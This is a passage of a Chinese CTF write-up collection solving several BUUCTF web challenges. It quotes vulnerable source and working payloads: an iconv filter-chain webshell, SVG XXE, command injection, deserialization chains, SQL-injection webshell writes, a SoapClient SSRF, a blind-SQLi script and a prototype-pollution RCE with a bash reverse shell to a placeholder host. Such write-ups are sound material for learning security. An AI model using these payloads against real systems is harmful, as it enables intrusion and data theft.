Tempting as it may seem to use finfo_file() to validate uploaded image files (Check whether a supposed imagefile really contains an image), the results cannot be trusted. It's not that hard to wrap harmful executable code in a file identified as a GIF for instance.

A better & safer option is to check the result of:

if (!$img = @imagecreatefromgif($uploadedfilename)) {
  trigger_error('Not a GIF image!',E_USER_WARNING);
  // do necessary stuff
}
```

猜测 finfo_file 识别有点问题, 于是随便删点东西

删到只剩 IHDR 的时候出现了 flag


## [N1CTF 2018]eating_cms

首页需要登录, 猜了个 register.php

```
http://fc7bccd5-1cba-40a9-9d7d-ba5d977bc73d.node4.buuoj.cn:81/register.php
```

注册之后登录


hint


这里不能直接访问, 试了一圈后发现 page 参数存在文件包含


之后依次把相关文件都下载下来

function.php

```php
<?php
session_start();
require_once "config.php";
function Hacker()
{
    Header("Location: hacker.php");
    die();
}


function filter_directory()
{
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

function filter_directory_guest()
{
    $keywords = ["flag","manage","ffffllllaaaaggg","info"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

function Filter($string)
{
    global $mysqli;
    $blacklist = "information|benchmark|order|limit|join|file|into|execute|column|extractvalue|floor|update|insert|delete|username|password";
    $whitelist = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'(),_*`-@=+><";
    for ($i = 0; $i < strlen($string); $i++) {
        if (strpos("$whitelist", $string[$i]) === false) {
            Hacker();
        }
    }
    if (preg_match("/$blacklist/is", $string)) {
        Hacker();
    }
    if (is_string($string)) {
        return $mysqli->real_escape_string($string);
    } else {
        return "";
    }
}

function sql_query($sql_query)
{
    global $mysqli;
    $res = $mysqli->query($sql_query);
    return $res;
}

function login($user, $pass)
{
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "select * from `albert_users` where `username_which_you_do_not_know`= '$user' and `password_which_you_do_not_know_too` = '$pass'";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
    if ($res->num_rows) {
        $data = $res->fetch_array();
        $_SESSION['user'] = $data[username_which_you_do_not_know];
        $_SESSION['login'] = 1;
        $_SESSION['isadmin'] = $data[isadmin_which_you_do_not_know_too_too];
        return true;
    } else {
        return false;
    }
    return;
}

function updateadmin($level,$user)
{
    $sql = "update `albert_users` set `isadmin_which_you_do_not_know_too_too` = '$level' where `username_which_you_do_not_know`='$user' ";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
//    die($res);
    if ($res == 1) {
        return true;
    } else {
        return false;
    }
    return;
}

function register($user, $pass)
{
    global $mysqli;
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "insert into `albert_users`(`username_which_you_do_not_know`,`password_which_you_do_not_know_too`,`isadmin_which_you_do_not_know_too_too`) VALUES ('$user','$pass','0')";
    $res = sql_query($sql);
    return $mysqli->insert_id;
}

function logout()
{
    session_destroy();
    Header("Location: index.php");
}

?>
```

user.php

```php
<?php
require_once("function.php");
if( !isset( $_SESSION['user'] )){
    Header("Location: index.php");

}
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;
}else{
    $oper_you_can_do = $OPERATE;
}
//die($_SESSION['isadmin']);
if($_SESSION['isadmin'] === '1'){
    if(!isset($_GET['page']) || $_GET['page'] === ''){
        $page = 'info';
    }else {
        $page = $_GET['page'];
    }
}
else{
    if(!isset($_GET['page'])|| $_GET['page'] === ''){
        $page = 'guest';
    }else {
        $page = $_GET['page'];
        if($page === 'info')
        {
//            echo("<script>alert('no premission to visit info, only admin can, you are guest')</script>");
            Header("Location: user.php?page=guest");
        }
    }
}
filter_directory();
//if(!in_array($page,$oper_you_can_do)){
//    $page = 'info';
//}
include "$page.php";
?>
```

文件包含限制后缀为 php, 试了 pearcmd 不行, 最后找到这个 trick

[https://tttang.com/archive/1395/](https://tttang.com/archive/1395/)

利用 php filter 生成一个命令执行的 webshell

```
<?php system($_GET[1]);;?>
```

```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.iconv.ISO6937.EUC-JP-MS|convert.iconv.EUCKR.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CN.ISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=config.php
```


看 wp 的时候发现非预期了... 其实利用的是 parse_url 解析漏洞

参考文章 [https://www.cnblogs.com/tr1ple/p/11137159.html](https://www.cnblogs.com/tr1ple/p/11137159.html)

```
//user.php?page=php://filter/read=convert.base64-encode/resource=ffffllllaaaaggg
```


```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}else {
    echo "you can find sth in m4aaannngggeee";
}
?>
```

根据文件包含去访问 m4aaannngggeee.php


下面还有个 upllloadddd.php

```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "</img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>
```

filename 处存在命令注入


查看 flag


## [FireshellCTF2020]Caas

通过 c 语言头文件包含 flag


## [BSidesCF 2019]SVGMagic

svg xxe, flag 名字需要自己猜...

参考文章 [https://zhuanlan.zhihu.com/p/323315064](https://zhuanlan.zhihu.com/p/323315064)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="1000" width="10000">
  <text x="10" y="20">&file;</text>
</svg>
```


## [极客大挑战 2020]Greatphp

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

利用原生类中的 Error/Exception 来绕过哈希比较

参考文章 [https://johnfrod.top/%E5%AE%89%E5%85%A8/ctf-%E4%B8%AD-php%E5%8E%9F%E7%94%9F%E7%B1%BB%E7%9A%84%E5%88%A9%E7%94%A8/](https://johnfrod.top/%E5%AE%89%E5%85%A8/ctf-%E4%B8%AD-php%E5%8E%9F%E7%94%9F%E7%B1%BB%E7%9A%84%E5%88%A9%E7%94%A8/)

原理就是 md5 sha1 函数传入 class 的时候其实会调用它的 \_\_toString 方法, 而 Error/Exception 刚好存在 \_\_toString, 并且显示的错误信息不会包含实例化传入的 code

即我们可以通过改变 code 的内容来构造两个不同异常类, 但这两个类的 \_\_toString 返回结果是相同的

```php
<?php

class SYCLOVER {
    public $syc;
    public $lover;
}

$cmd = 'include $_GET[1];?>';

$a = new Error($cmd, 1); $b = new Error($cmd, 2);

$o = new SYCLOVER();
$o->syc = $a;
$o->lover = $b;

echo urlencode(serialize($o));
```

注意两个异常类得放到一行写, 因为错误信息中会显示当前语句所在的行号

```
http://853ea8a8-7f5f-4242-a388-4a151477d960.node4.buuoj.cn:81/?great=O%3A8%3A%22SYCLOVER%22%3A2%3A%7Bs%3A3%3A%22syc%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A19%3A%22include+%24_GET%5B1%5D%3B%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A37%3A%22D%3A%5CphpStudy%5CPHPTutorial%5CWWW%5Cindex.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A20%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7Ds%3A5%3A%22lover%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A19%3A%22include+%24_GET%5B1%5D%3B%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A2%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A37%3A%22D%3A%5CphpStudy%5CPHPTutorial%5CWWW%5Cindex.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A20%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D%7D&1=/flag
```

反引号执行命令失败, 换成了 include


## EasyBypass

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];


if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

payload

```
http://cbd215c6-6784-4d72-9a60-292bc9395b31.node4.buuoj.cn:81/?comm1="; tac /fla?; "&comm2=123
```

## [GYCTF2020]Ez_Express

www.zip 泄露

routes/index.js

```javascript
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }

  return undefined
}

router.get('/', function (req, res) {
  if(!req.session.user){
    res.redirect('/login');
  }
  res.outputFunctionName=undefined;
  res.render('index',data={'user':req.session.user.user});
});


router.get('/login', function (req, res) {
  res.render('login');
});


router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
module.exports = router;
```

很明显是原型链污染, 而且模板引擎是 ejs, 可以配合污染来 rce

keyword 的绕过用到 nodejs 的大小写特性

```javascript
"ı".toUpperCase() == 'I'
```

总的流程就是先注册用户 `admın`, 然后用 `ADMIN` 登录, 再向 `/action` post json 数据, 最后访问 `/info` 进行 rce

payload

```javascript
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxxx/yyyy 0>&1\"');var __tmp2"}}
```


## bestphp's revenge

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
```

flag.php

```php
<?php
session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!
```

这道题思路挺好的, 卡了好久...

首先通过 call\_user\_func 结合 `$_POST` 参数可以用 extract 变量覆盖

然后结合 session\_start 可以传入数组参数的特性来自定义 php serialize handler


之后构造 SoapClient 原生类进行 ssrf

最后通过 call\_user\_func 可以传入数组的特性来触发 SoapClient 的 \_\_call 方法


```php
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
```

这里通过 `reset($_SESSION)` 取得 session 数组里面的第一个值 (字符串), 然后调用对应类的 `welcome_to_the_lctf2018` 方法

不难发现 `$_SESSION['name']` 可控, 那么在 SoapClient 已经被反序列化好的情况下指定 `name=SoapClient`, 并且用变量覆盖使 `$b` 的值为 `call_user_func` , 就可以达到 `SoapClient->welcome_to_the_lctf2018` 的效果, 最终触发 ssrf

构造的时候有个注意点, 因为 flag 最后是写在 session 里的, 所以在 ssrf 发包的时候需要指定一个相同的 PHPSESSID cookie, 这样才能确保我们这边能够获取到 flag

payload 如下

```php
<?php
$a = new SoapClient(null,array('location' => 'http://127.0.0.1/flag.php', 'user_agent' => "111\r\nCookie: PHPSESSID=uns9hpdaos2m88tsi4ml2v0o42", 'uri' => 'test'));
$b = serialize($a);
echo '|'.urlencode($b);
```


## [安洵杯 2019]不是文件上传

根据底下的 `Powered By wowouploadimage` 在 GitHub 找到源码

[https://github.com/Threezh1/wowouploadimage](https://github.com/Threezh1/wowouploadimage)

helper.php

```php
<?php
class helper {
	protected $folder = "pic/";
	protected $ifview = False; 
	protected $config = "config.txt";
	// The function is not yet perfect, it is not open yet.

	public function upload($input="file")
	{
		$fileinfo = $this->getfile($input);
		$array = array();
		$array["title"] = $fileinfo['title'];
		$array["filename"] = $fileinfo['filename'];
		$array["ext"] = $fileinfo['ext'];
		$array["path"] = $fileinfo['path'];
		$img_ext = getimagesize($_FILES[$input]["tmp_name"]);
		$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
		$array["attr"] = serialize($my_ext);
		$id = $this->save($array);
		if ($id == 0){
			die("Something wrong!");
		}
		echo "<br>";
		echo "<p>Your images is uploaded successfully. And your image's id is $id.</p>";
	}

	public function getfile($input)
	{
		if(isset($input)){
			$rs = $this->check($_FILES[$input]);
		}
		return $rs;
	}

	public function check($info)
	{
		$basename = substr(md5(time().uniqid()),9,16);
		$filename = $info["name"];
		$ext = substr(strrchr($filename, '.'), 1);
		$cate_exts = array("jpg","gif","png","jpeg");
		if(!in_array($ext,$cate_exts)){
			die("<p>Please upload the correct image file!!!</p>");
		}
	    $title = str_replace(".".$ext,'',$filename);
	    return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
	}

	public function save($data)
	{
		if(!$data || !is_array($data)){
			die("Something wrong!");
		}
		$id = $this->insert_array($data);
		return $id;
	}

	public function insert_array($data)
	{	
		$con = mysqli_connect("127.0.0.1","root","root","pic_base");
		if (mysqli_connect_errno($con)) 
		{ 
		    die("Connect MySQL Fail:".mysqli_connect_error());
		}
		$sql_fields = array();
		$sql_val = array();
		foreach($data as $key=>$value){
			$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
			$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
			$sql_fields[] = "`".$key_temp."`";
			$sql_val[] = "'".$value_temp."'";
		}
		$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
		echo $sql;
		mysqli_query($con, $sql);
		$id = mysqli_insert_id($con);
		mysqli_close($con);
		return $id;
	}

	public function view_files($path){
		if ($this->ifview == False){
			return False;
			//The function is not yet perfect, it is not open yet.
		}
		$content = file_get_contents($path);
		echo $content;
	}

	function __destruct(){
		# Read some config html
		$this->view_files($this->config);
	}
}

?>
```

show.php

```php
<!DOCTYPE html>
<html>
<head>
	<title>Show Images</title>
	<link rel="stylesheet" href="./style.css">
	<meta http-equiv="content-type" content="text/html;charset=UTF-8"/>
</head>
<body>

<h2 align="center">Your images</h2>
<p>The function of viewing the image has not been completed, and currently only the contents of your image name can be saved. I hope you can forgive me and my colleagues and I are working hard to improve.</p>
<hr>

<?php
include("./helper.php");
$show = new show();
if($_GET["delete_all"]){
	if($_GET["delete_all"] == "true"){
		$show->Delete_All_Images();
	}
}
$show->Get_All_Images();

class show{
	public $con;

	public function __construct(){
		$this->con = mysqli_connect("127.0.0.1","root","root","pic_base");
		if (mysqli_connect_errno($this->con)){ 
   			die("Connect MySQL Fail:".mysqli_connect_error());
		}
	}

	public function Get_All_Images(){
		$sql = "SELECT * FROM images";
		$result = mysqli_query($this->con, $sql);
		if ($result->num_rows > 0){
		    while($row = $result->fetch_assoc()){
		    	if($row["attr"]){
		    		$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
					$attr = unserialize($attr_temp);
				}
		        echo "<p>id=".$row["id"]." filename=".$row["filename"]." path=".$row["path"]."</p>";
		    }
		}else{
		    echo "<p>You have not uploaded an image yet.</p>";
		}
		mysqli_close($this->con);
	}

	public function Delete_All_Images(){
		$sql = "DELETE FROM images";
		$result = mysqli_query($this->con, $sql);
	}
}
?>

<p><a href="show.php?delete_all=true">Delete All Images</a></p>
<p><a href="upload.php">Upload Images</a></p>

</body>
</html>
```

insert\_array 的时候存在 sql 注入, filename 可控, 然后结合 Get\_All\_Images 时的 unserialize 来反序列化 helper 类, 利用 \_\_destruct 方法读取 flag

```php
<?php
class helper {
    protected $ifview = True; 
    protected $config = "/flag";
}

echo str_replace(chr(0).'*'.chr(0),'\0\0\0',serialize(new helper()));

?>
```

注意属性必须得是 protected 的, 并且 00 字符替换要按照题目代码里面的来

测试发现 filename 不能存在 `/` 字符, 于是改成 hex, 即

```
123','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d);#.jpg
```


## [SUCTF 2018]MultiSQL

查询用户信息处存在盲注

```
http://506b995f-192c-4444-b540-0908e8922e84.node4.buuoj.cn:81/user/user.php?id=2-1
```

用户名处应该也有个二次注入的, 没继续研究

盲注用异或来连接, 可以读文件, 但跑的时间很长

根据题目提示改成了预编译, 估计过滤了一些字符, 于是转成十六进制

结合上传头像时图片保存的路径 /favicon, 猜测该目录可写 (网站根目录没有权限)

直接利用预编译语句 into outfile 写 shell

```
http://506b995f-192c-4444-b540-0908e8922e84.node4.buuoj.cn:81/user/user.php?id=1;set @a=0x73656c65637420273c3f706870206576616c28245f524551554553545b315d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f78782e70687027;prepare st from @a;execute st;
```


## [RoarCTF 2019]Online Proxy

题目有点恶心, 感觉还是看源码会清楚一点...

```php
$last_ip = "";
$result = query("select current_ip, last_ip from ip_log where uuid = '".addslashes($uuid)."'");
if(count($result) > 0) {
    if($ip !== $result[0]['current_ip']) {
        $last_ip = $result[0]['current_ip'];

        query("delete from ip_log where uuid='".addslashes($uuid)."'");
    } else {
        $last_ip = $result[0]['last_ip'];
    }
}

query("insert into ip_log values ('".addslashes($uuid)."', '".addslashes($ip)."', '$last_ip');");

die("\n<!-- Debug Info: \n Duration: $time s \n Current Ip: $ip ".($last_ip !== "" ? "\nLast Ip: ".$last_ip : "")." -->");
```

第一次访问得到 current\_ip 并插入数据库, 第二次更改 xff 头访问会将之前的 current\_ip 作为 last\_ip, 然后将 last\_ip 无过滤拼接到 sql 语句, 之后再访问的时候就直接从查询结果中取出 last\_ip 并输出

思路就是第一次构造 xff 头 sql 注入, 第二次更改 ip 访问让 sql 注入的结果插入到数据库, 第三次保持之前的 ip 访问, 网站就会把结果返回出来

脚本如下

```python
import requests
import time

url = 'http://node4.buuoj.cn:26194'

flag = ''

i = 1

cookies = {'track_uuid': 'd9d157df-93ca-47a1-f438-f851d5ae0249'}

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.02)
        mid = (min + max) // 2
        print(chr(mid))

        payload = '1 \' and if(ascii(substr((select group_concat(F4l9_C01uMn) from F4l9_D4t4B45e.F4l9_t4b1e), {},1))>{}, 1, 0) and \'1\'=\'1'.format(i, mid)
        res1 = requests.get(url, headers={'X-Forwarded-For': payload}, cookies=cookies)
        res2 = requests.get(url, headers={'X-Forwarded-For': 'aa'}, cookies=cookies)
        res3 = requests.get(url, headers={'X-Forwarded-For': 'aa'}, cookies=cookies)
        if 'Last Ip: 1' in res3.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    i += 1
    print('found', flag)
```

注意保持 cookie 相同

## [GXYCTF2019]BabysqliV3.0

其实是 phar 反序列化的题

登录框输入 admin / password (弱口令), 然后主页 url 格式如下

```
http://f1d213e6-b05b-41aa-a5a9-4d06f76033a9.node4.buuoj.cn:81/home.php?file=upload
```

猜测存在文件包含, 于是利用 php filter 读取 upload.php

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 

<form action="" method="post" enctype="multipart/form-data">
	上传文件
	<input type="file" name="file" />
	<input type="submit" name="submit" value="上传" />
</form>

<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	

	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}

		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}

	function upload($file){
		global $sandbox;
		global $ext;

		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
		}
	}

	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}

	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}

if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}

?>
```

简单反序列化, payload 如下

```php
<?php

class Uploader{
    public $Filename;
    public $cmd;
    public $token;
}

$a = new Uploader();
$a->cmd='eval($_REQUEST[1]);phpinfo();';
$a->token = 0;

